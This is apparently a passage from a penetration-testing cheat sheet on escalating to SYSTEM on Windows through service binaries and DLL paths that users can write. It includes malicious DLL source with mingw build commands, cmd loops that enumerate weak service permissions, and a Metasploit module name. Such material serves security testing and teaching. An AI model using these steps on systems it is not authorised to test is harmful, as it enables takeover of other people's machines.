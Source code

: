 ## EoP - Incorrect permissions in services

> A service running as Administrator/SYSTEM with incorrect file permissions might allow EoP. You can replace the binary, restart the service and get system.

Often, services are pointing to writable locations:

* Orphaned installs, not installed anymore but still exist in startup
* DLL Hijacking

    ```powershell
    # find missing DLL 
    - Find-PathDLLHijack PowerUp.ps1
    - Process Monitor : check for "Name Not Found"

    # compile a malicious dll
    - For x64 compile with: "x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
    - For x86 compile with: "i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll"

    # content of windows_dll.c
    #include <windows.h>
    BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
        if (dwReason == DLL_PROCESS_ATTACH) {
            system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
            ExitProcess(0);
        }
        return TRUE;
    }
    ```

* PATH directories with weak permissions

    ```powershell
    $ for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
    $ for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

    $ sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
    FOR /F %i in (Servicenames.txt) DO echo %i
    type Servicenames.txt
    FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
    ```

Alternatively you can use the Metasploit exploit : `exploit/windows/local/service_permissions`

Note to check file permissions you can use `cacls` and `icacls`
> icacls (Windows Vista +)
> cacls (Windows XP)

You are looking for `BUILTIN\Users:(F)`(Full access), `BUILTIN\Users:(M)`(Modify access) or  `BUILTIN\Users:(W)`(Write-only access) in the output.
